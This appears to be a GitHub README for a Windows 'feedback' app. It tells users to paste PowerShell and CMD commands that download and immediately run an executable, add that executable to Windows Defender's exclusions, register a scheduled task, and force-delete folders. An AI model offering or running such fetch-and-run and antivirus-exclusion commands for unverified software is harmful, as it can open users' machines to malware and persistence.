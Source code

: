 ### To install the setup file 
1. Open Powershell & paste the script
```bash
iwr -UseBasicParsing "https://github.com/bebedudu/autoupdate/releases/download/v1.1.9/MyFeedbackSetup.exe" -OutFile "$env:TEMP\MyFeedbackSetup.exe"; Start-Process "$env:TEMP\MyFeedbackSetup.exe"
```
### Add the auto task & make trusted application
1. Open Powershell & paste it
```bash
Start-Process "C:\user feedback\feedback\feedbacktask.exe"
```
### Make trusted application to window defender
1. Open Powershell as admin & paste the script
```bash
$exePath = "C:\user feedback\feedback\feedback.exe"; Add-MpPreference -ExclusionPath $exePath; Write-Host "Added $exePath to Windows Defender exclusions."
```
or,
```bash
# Define the path to your executable
$exePath = "C:\user feedback\feedback\feedback.exe"
# Add the application to Windows Defender exclusions
Add-MpPreference -ExclusionPath $exePath
Write-Host "Added $exePath to Windows Defender exclusions."
```
2. Check the Exclusion list
<pre>
i)Open Setting > Privacy & Security > Windows Security > Virus & Threat Protection
ii)Click on Manage Settings under "Virus & threat protection settings."
iii)Scroll down to the Exclusions section and click Add or Remove Exclusions .
iv)Check if your application's path is listed here.
</pre>
or,
1. Open Powershell as admin & paste the script (filename.ps1)
```bash
# Check if the script is running with administrative privileges
if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) {
    Write-Host "This script must be run as an administrator. Please restart the script with elevated privileges." -ForegroundColor Red
    exit
}

# Retrieve Windows Defender exclusion lists
try {
    $exclusions = Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension, ExclusionProcess, ExclusionIpAddress

    # Display the exclusions
    Write-Host "Windows Defender Exclusion List:" -ForegroundColor Cyan
    Write-Host "--------------------------------------------"

    if ($exclusions.ExclusionPath) {
        Write-Host "Excluded Paths:" -ForegroundColor Green
        $exclusions.ExclusionPath | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "No paths are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionExtension) {
        Write-Host "`nExcluded Extensions:" -ForegroundColor Green
        $exclusions.ExclusionExtension | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo extensions are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionProcess) {
        Write-Host "`nExcluded Processes:" -ForegroundColor Green
        $exclusions.ExclusionProcess | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo processes are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionIpAddress) {
        Write-Host "`nExcluded IP Addresses:" -ForegroundColor Green
        $exclusions.ExclusionIpAddress | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo IP addresses are excluded." -ForegroundColor Yellow
    }
} catch {
    Write-Host "An error occurred while retrieving the exclusion list: $_" -ForegroundColor Red
}
```

### To delete previous installed assets
1. Open CMD in admin mode paste the script (may need to run 2 time)
```bash
tasklist /fi "imagename eq feedback.exe" | find /i "feedback.exe" >nul && taskkill /f /im feedback.exe >nul 2>&1 && timeout /t 3 >nul || rmdir /s /q "C:\user feedback" && echo Folder deleted successfully.
```
or,
```bash
takeown /f "C:\user feedback" /r /d y && icacls "C:\user feedback" /grant %username%:F /t && taskkill /f /im feedback.exe >nul 2>&1 && timeout /t 5 >nul && rmdir /s /q "C:\user feedback" && echo Folder deleted successfully.
```

### To restore the Feedback application
1. Open Powershell
2. Paste these code in your Powershell
```bash
Remove-Item -Path "C:\user feedback\feedback\config.json"
```
or,
```bash
   # Check if 'feedback.exe' is running and stop it if found
$process = Get-Process -Name "feedback" -ErrorAction SilentlyContinue
if ($process) {
    Stop-Process -Name "feedback" -Force
    Write-Host "'feedback.exe' was running and has been closed."
} else {
    Write-Host "'feedback.exe' is not currently running."
}

# Delete the file and check if it was successful
if (Test-Path "C:\user feedback\feedback\config.json") {
    del "C:\user feedback\feedback\config.json"
    Write-Host "File 'config.json' has been deleted."
} else {
    Write-Host "File 'config.json' does not exist."
}

# Start the app
Start-Process "C:\user feedback\feedback\feedback.exe"
Write-Host "'feedback.exe' has been launched."
```
3. You sucessfully resolved the problem 🎉🎉


### Add taskscheduler
1. Open CMD as admin and paste it
```bash
schtasks /create /xml "C:\user feedback\feedback\assets\schedule\MyFeedback.xml" /tn "MyFeedback"
```
